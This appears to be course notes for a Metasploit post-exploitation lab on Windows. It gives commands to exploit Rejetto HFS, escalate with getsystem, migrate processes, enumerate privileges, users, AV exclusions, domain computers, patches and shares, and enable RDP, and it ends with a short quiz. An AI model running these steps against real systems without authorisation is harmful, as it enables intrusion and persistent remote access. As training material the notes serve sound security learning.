 
Setup msfconsole
```
service postgresql start && msfconsole
workspace -a post_exploitation
setg RHOSTS <target_ip>
setg RHOST <target_ip>
setg LHOST <local_ip>
```

Scan and enumerate target 
```
db_nmap -sV <target_ip> 
```

Search and setup exploit
```
search rejetto
use exploit/windows/http/rejetto_hfs_exec
exploit
```

Get system information via meterpreter
```
getsystem
getuid
show_mount
ps
```

Migrate to a process via process
```
migrate <process_id>
```

Migrate process via module
```
use post/windows/manage/migrate
set SESSION <session_id>
exploit
```

Gather windows privileges
```
use post/windows/gather/win_privs
set SESSION <session_id>
exploit
```

Check for logged on users
```
search enum_logged_on
use post/windows/gather/enum_logged_on_users
options
set SESSION <session_id>
exploit
```

Check if remote host is a virtual machine
```
search checkvm
use post/windows/gather/checkvm 
set SESSION <session_id>
exploit
```

Check installed applications on target
```
search enum_applications
use post/windows/gather/enum_applications
set SESSION <session_ID>
exploit
```

Information enumerated is stored in the
```
/root/.msf3/loot
```
directory

Check which files and folder are not being scanned 
```
search type:post platform:windows enum_av
use post/windows/gather/enum_av_excluded
set SESSION <session_id>
exploit
```

Check other computers on network/domain
```
search enum_computer
use post/windows/gather/enum_computers
options
set SESSION <session_id>
exploit
```

Check for patches on target machine
```
search enum_patches
use post/windows/gather/enum_patches
options
set SESSION <session_id>
exploit
```

Check shares on target
```
search enum_shares
use post/windows/gather/enum_shares
set SESSION <session_id>
exploit
```

Check if RDP is enabled
```
use post/windows/manage/enable_rdp
set SESSION <session_id>
exploit
```
## Quiz

Which one of the following MSF post modules can be used to enumerate Windows privileges?

	post/windows/gather/win_privs

Which one of the following Windows commands can be used to enumerate system information manually?

	systeminfo

Which one of the following meterpreter commands can be used to migrate to another process?

	migrate


## Lab

This lab covers the process of automating various phases of post-exploitation through the use of various Metasploit modules.